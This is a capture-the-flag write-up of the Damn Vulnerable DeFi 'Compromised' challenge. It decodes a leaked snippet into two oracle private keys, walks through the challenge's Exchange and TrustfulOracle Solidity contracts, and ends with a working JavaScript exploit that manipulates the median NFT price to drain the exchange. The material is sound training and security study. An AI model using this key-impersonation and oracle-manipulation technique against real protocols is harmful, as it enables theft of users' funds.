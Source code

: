 #+AUTHOR: Francesco Cannarozzo
* Compromised
** Statement
   an exchange is selling expensive NFTs, fetching price via three trusted oracles.
   Starting with minimal (0.1 ETH) funds, we are tasked with draining the pool.

   Furthermore, we are provided with an alluring snippet:

   #+BEGIN_SRC
	 HTTP/2 200 OK
   content-type: text/html
   content-language: en
   vary: Accept-Encoding
   server: cloudflare

   4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

   4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34

   #+END_SRC
** Snippet
   the snippet seems to be comprised of two separate sets of hexadecimal numbers, each starting with
   *4d 48*. in the snippet heading we also read *vary: Accept-Encoding*, so it's safe to assume these
   are actually encoded.
   
   simply mapping the bytes to ASCII yelds unfamiliar strings:

   #+BEGIN_SRC
   MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5

   MHgyMDgyNDJjNDBhY2RmYTllZDg4OWU2ODVjMjM1NDdhY2JlZDliZWZjNjAzNzFlOTg3NWZiY2Q3MzYzNDBiYjQ4
   #+END_SRC

   these don't look like anything useful to us, so we're going to have to figure out which encoding
   has been used.
   It's easy to notice how the two strings have identical length of 44: being this a multiple of four,
   we can try the very common BASE64 encoding, and passing the strings we receive

   #+BEGIN_SRC
  0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9

  0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
   #+END_SRC

   if we take the part after '0x', we can see how both strings are formed exactly by 64
   hex characters.

   _...Just like a private key._
** Files
*** Exchange.sol
**** Code
     #+BEGIN_SRC solidity
     // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

import "./TrustfulOracle.sol";
import "../DamnValuableNFT.sol";

/**
 * @title Exchange
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract Exchange is ReentrancyGuard {

    using Address for address payable;

    DamnValuableNFT public immutable token;
    TrustfulOracle public immutable oracle;

    event TokenBought(address indexed buyer, uint256 tokenId, uint256 price);
    event TokenSold(address indexed seller, uint256 tokenId, uint256 price);

    constructor(address oracleAddress) payable {
        token = new DamnValuableNFT();
        oracle = TrustfulOracle(oracleAddress);
    }

    function buyOne() external payable nonReentrant returns (uint256) {
        uint256 amountPaidInWei = msg.value;
        require(amountPaidInWei > 0, "Amount paid must be greater than zero");

        // Price should be in [wei / NFT]
        uint256 currentPriceInWei = oracle.getMedianPrice(token.symbol());
        require(amountPaidInWei >= currentPriceInWei, "Amount paid is not enough");

        uint256 tokenId = token.safeMint(msg.sender);
        
        payable(msg.sender).sendValue(amountPaidInWei - currentPriceInWei);

        emit TokenBought(msg.sender, tokenId, currentPriceInWei);

        return tokenId;
    }

    function sellOne(uint256 tokenId) external nonReentrant {
        require(msg.sender == token.ownerOf(tokenId), "Seller must be the owner");
        require(token.getApproved(tokenId) == address(this), "Seller must have approved transfer");

        // Price should be in [wei / NFT]
        uint256 currentPriceInWei = oracle.getMedianPrice(token.symbol());
        require(address(this).balance >= currentPriceInWei, "Not enough ETH in balance");

        token.transferFrom(msg.sender, address(this), tokenId);
        token.burn(tokenId);
        
        payable(msg.sender).sendValue(currentPriceInWei);

        emit TokenSold(msg.sender, tokenId, currentPriceInWei);
    }

    receive() external payable {}
}

     #+END_SRC
**** Breakdown
***** State
      the contract is minimally stateful, only maintaining immutable references
      to both the *DamnValuableNFT* token, and the *TrustfulOracle* oracle;
      while the first will be instanced at contract creation, the second will be passed 
      in the constructor.
***** buyOne
      function used to buy a *DamnValuableNFT* from the exchange.

      value sent along with the call is recorded in *amountPaidInWei*, which is required to be
      greater than zero: the current price for the token is then retrieved through *oracle*'s 
      *getMedianPrice*: such price is required to be lower than *amountPaidInWei*.

      then, the token is minted to *msg.sender*'s account, and any change is refunded.
      Finally, the appropriate event is emitted, and uint *tokenId* is returned.

***** sellOne
      just as above, only for selling NFTs.

      initial requirements for *msg.sender* to be the owner of *tokenId* token and for the approval
      of such token for the exchange address are set;
      
      if they are met, price is once more fetched from oracles as above: after the NFT has been transferred
      to the exchange and burned, corresponding value is sent back to *msg.sender*, and the appropriate
      event emitted.
*** TrustfulOracle.sol
**** Code
     #+BEGIN_SRC solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/access/AccessControlEnumerable.sol";

/**
 * @title TrustfulOracle
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 * @notice A price oracle with a number of trusted sources that individually report prices for symbols.
 *         The oracle's price for a given symbol is the median price of the symbol over all sources.
 */
contract TrustfulOracle is AccessControlEnumerable {

    bytes32 public constant TRUSTED_SOURCE_ROLE = keccak256("TRUSTED_SOURCE_ROLE");
    bytes32 public constant INITIALIZER_ROLE = keccak256("INITIALIZER_ROLE");

    // Source address => (symbol => price)
    mapping(address => mapping (string => uint256)) private pricesBySource;

    modifier onlyTrustedSource() {
        require(hasRole(TRUSTED_SOURCE_ROLE, msg.sender));
        _;
    }

    modifier onlyInitializer() {
        require(hasRole(INITIALIZER_ROLE, msg.sender));
        _;
    }

    event UpdatedPrice(
        address indexed source,
        string indexed symbol,
        uint256 oldPrice,
        uint256 newPrice
    );

    constructor(address[] memory sources, bool enableInitialization) {
        require(sources.length > 0);
        for(uint256 i = 0; i < sources.length; i++) {
            _setupRole(TRUSTED_SOURCE_ROLE, sources[i]);
        }

        if (enableInitialization) {
            _setupRole(INITIALIZER_ROLE, msg.sender);
        }
    }

    // A handy utility allowing the deployer to setup initial prices (only once)
    function setupInitialPrices(
        address[] memory sources,
        string[] memory symbols,
        uint256[] memory prices
    ) 
        public
        onlyInitializer
    {
        // Only allow one (symbol, price) per source
        require(sources.length == symbols.length && symbols.length == prices.length);
        for(uint256 i = 0; i < sources.length; i++) {
            _setPrice(sources[i], symbols[i], prices[i]);
        }
        renounceRole(INITIALIZER_ROLE, msg.sender);
    }

    function postPrice(string calldata symbol, uint256 newPrice) external onlyTrustedSource {
        _setPrice(msg.sender, symbol, newPrice);
    }

    function getMedianPrice(string calldata symbol) external view returns (uint256) {
        return _computeMedianPrice(symbol);
    }

    function getAllPricesForSymbol(string memory symbol) public view returns (uint256[] memory) {
        uint256 numberOfSources = getNumberOfSources();
        uint256[] memory prices = new uint256[](numberOfSources);

        for (uint256 i = 0; i < numberOfSources; i++) {
            address source = getRoleMember(TRUSTED_SOURCE_ROLE, i);
            prices[i] = getPriceBySource(symbol, source);
        }

        return prices;
    }

    function getPriceBySource(string memory symbol, address source) public view returns (uint256) {
        return pricesBySource[source][symbol];
    }

    function getNumberOfSources() public view returns (uint256) {
        return getRoleMemberCount(TRUSTED_SOURCE_ROLE);
    }

    function _setPrice(address source, string memory symbol, uint256 newPrice) private {
        uint256 oldPrice = pricesBySource[source][symbol];
        pricesBySource[source][symbol] = newPrice;
        emit UpdatedPrice(source, symbol, oldPrice, newPrice);
    }

    function _computeMedianPrice(string memory symbol) private view returns (uint256) {
        uint256[] memory prices = _sort(getAllPricesForSymbol(symbol));

        // calculate median price
        if (prices.length % 2 == 0) {
            uint256 leftPrice = prices[(prices.length / 2) - 1];
            uint256 rightPrice = prices[prices.length / 2];
            return (leftPrice + rightPrice) / 2;
        } else {
            return prices[prices.length / 2];
        }
    }

    function _sort(uint256[] memory arrayOfNumbers) private pure returns (uint256[] memory) {
        for (uint256 i = 0; i < arrayOfNumbers.length; i++) {
            for (uint256 j = i + 1; j < arrayOfNumbers.length; j++) {
                if (arrayOfNumbers[i] > arrayOfNumbers[j]) {
                    uint256 tmp = arrayOfNumbers[i];
                    arrayOfNumbers[i] = arrayOfNumbers[j];
                    arrayOfNumbers[j] = tmp;
                }
            }
        }        
        return arrayOfNumbers;
    }
}
     #+END_SRC
**** Breakdown
***** State
      save for constants, there's only one structure maintained by the contract, and a flashy one at that:
      *pricesBySource* maps addresses onto a mapping of strings on to integers:
      addresses represent trusted oracles, Symbols will be associated to tokens, and the integer represent price.

      
***** Constructor
      as the contract inherits from *AccessControlEnumerable*,
      we're trusting the contract's safety on proper assignation of such roles:
      at contract deployment, we pass the constructor a *address[]* array /sources/
      containing the addresses of trusted oracle, along with a *bool* /enableInitialization/.\

      after all the addresses in /sources/ are assigned their role of *trusted source*,
      if /enableInitialization/ is set to true msg.sender will be assigned as the *initializer*
***** SetUpInitialPrices
      To be called only once per exchange instance, the method is restricted to callers with
      *inizializer* role.

      three arrays are passed: /sources/, /symbols/, and /price/:
      such arrays are then used to populate /pricesBySource/ through *_setPrice()*,
      before the *initializer* role is removed from *msg.sender*.
***** postPrice
      public facade of *_setPrice()*, allows only *trusted source* role holders to call it.
***** getMedianPrice
      calls upon private method *_computeMedianPrice()*.
***** getAllPricesForSymbol
      given a token Symbol, returns an array containing all the different sources's prices
      for such symbol.
***** getNumberOfSources
      gets number of sources :)
***** _setPrice
      given /source/, /symbol/ and /newPrice/, updates the corresponding *pricesBySource* entry.
***** _computeMedianPrice
      AFter sorting all provided prices for given /symbol/, calculates the median.
***** _sort
      sorts an array of integers :)
** Exploit
   We can actually exploit these contracts without even deploying our own.
   once we have established the captured private keys to indeed belong to two of the oracle's trusted sources,
   we can impersonate them, and manipulate the price as we want:

   that way, we can buy low and sell high, draining the exchange's funds and completing the challenge.

   #+BEGIN_SRC javascript
       it('Exploit', async function () {        
        keys = [
            "0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9",
            "0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48"
        ]
        
        wallet1 = new ethers.Wallet(keys[0], ethers.provider);
        wallet2 = new ethers.Wallet(keys[1], ethers.provider);
        expect(sources).to.contain(wallet1.address).and.to.contain(wallet2.address);
        // we control two out of three oracles, and can thus affect the median price!
        
        // first, we set the price very low
            await this.oracle.connect(wallet1).postPrice("DVNFT", 2);
            await this.oracle.connect(wallet2).postPrice("DVNFT", 2);
        // we then buy for cheap
        await this.exchange.connect(attacker).buyOne({value: 2});
        // now we raise the price
        await this.oracle.connect(wallet1).postPrice("DVNFT", ethers.provider.getBalance(this.exchange.address));
        await this.oracle.connect(wallet2).postPrice("DVNFT", ethers.provider.getBalance(this.exchange.address));

        //and we sell for a high, high price
         await this.nftToken.connect(attacker).approve(this.exchange.address, ethers.BigNumber.from(0));
         await this.exchange.connect(attacker).sellOne(ethers.BigNumber.from(0));

         //then we set the price back to normal
         await this.oracle.connect(wallet1).postPrice("DVNFT", INITIAL_NFT_PRICE);
         await this.oracle.connect(wallet2).postPrice("DVNFT", INITIAL_NFT_PRICE);
 

    });

   #+END_SRC
